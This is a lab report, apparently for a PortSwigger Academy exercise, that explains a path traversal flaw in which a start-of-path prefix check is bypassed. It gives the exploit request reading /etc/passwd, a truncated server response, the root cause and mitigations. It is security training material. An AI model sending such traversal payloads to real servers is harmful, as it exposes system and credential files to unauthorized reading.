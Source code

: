 # Lab Report: File Path Traversal (Validation of start of path)

## Overview
This lab demonstrates a **File Path Traversal** vulnerability where the application attempts to validate that a supplied path starts with an allowed directory prefix (for example `/var/www/images/`) but fails to properly canonicalize or normalize the path. Because the validation only checks the literal start of the string, traversal sequences later in the path can escape the intended directory and allow access to sensitive files.

The goal of this lab was to retrieve the contents of the `/etc/passwd` file.

---

## Steps to Exploitation

### 1. Initial Request
The application used a request parameter `filename` to fetch image files. The developer attempted to enforce that the requested file path must start with `/var/www/images/` by checking the string prefix. However, this check was performed on the raw input without canonicalizing the path, so a payload that begins with the allowed prefix but contains traversal sequences afterwards can bypass the check.

### 2. Payload
A payload that begins with the allowed prefix and contains traversal sequences was used to bypass the naive start-of-path validation:

```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
Host: <LAB-ID>.web-security-academy.net
Cookie: session=<valid-session-cookie>
User-Agent: Mozilla/5.0
Accept: image/avif,image/webp,*/*
```

**Explanation:**
- The server verifies that the input string starts with `/var/www/images/`, which this payload does. The application does not normalize the path to resolve `..` segments before enforcing the restriction. As a result, after path resolution the effective path becomes `/etc/passwd`, allowing the file to be read.

### 3. Server Response
The server returned the contents of `/etc/passwd`, proving successful exploitation:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

---

## Evidence

### Exploit Request and Response
![Exploit Request and Response](/images/validation%20of%20start%20of%20path1.jpg)

### Lab Solved Confirmation
![Lab Solved](/images/validation%20of%20start%20of%20path1%20lab%20solved.jpg)

---

## Result
- Retrieved sensitive system file: `/etc/passwd`  
- Confirmed path traversal vulnerability by bypassing a naive start-of-path validation using a payload that begins with the allowed prefix.  
- Lab status:  
  ✅ *"Congratulations, you solved the lab!"*

---

## Root Cause
- The application attempted to restrict file access by verifying that the input string starts with an allowed directory prefix but failed to canonicalize the path prior to validation.  
- Because path normalization was not performed, `..` segments occurring after the validated prefix allowed the path to escape the intended directory.

---

## Mitigation
1. **Canonicalize input** — Decode and normalize the input path (resolve `.` and `..` segments and percent-encoding) before applying any validation.  
2. **Validate canonical path** — After canonicalization, ensure the resulting absolute path resides within the allowed directory (for example, by checking that the canonical path has `/var/www/images/` as its prefix).  
3. **Use Whitelisting** — Restrict file access to a specific directory and a whitelist of filenames.  
4. **Avoid direct file paths** — Use indirect references (IDs or mappings) instead of exposing file paths to users.  
5. **Use secure APIs** — Use server-side APIs that perform proper path normalization and avoid manual string-based filtering.

---

## Skills Demonstrated
- Testing for path traversal vulnerabilities  
- Bypassing naive start-of-path validation by supplying traversal sequences after an allowed prefix  
- Retrieving sensitive files from the server (`/etc/passwd`)  
- Capturing and documenting exploitation steps with Burp Suite

---

## References
- PortSwigger Academy: File path traversal — validation of start of path  
- OWASP: Path Traversal

---

*End of report.*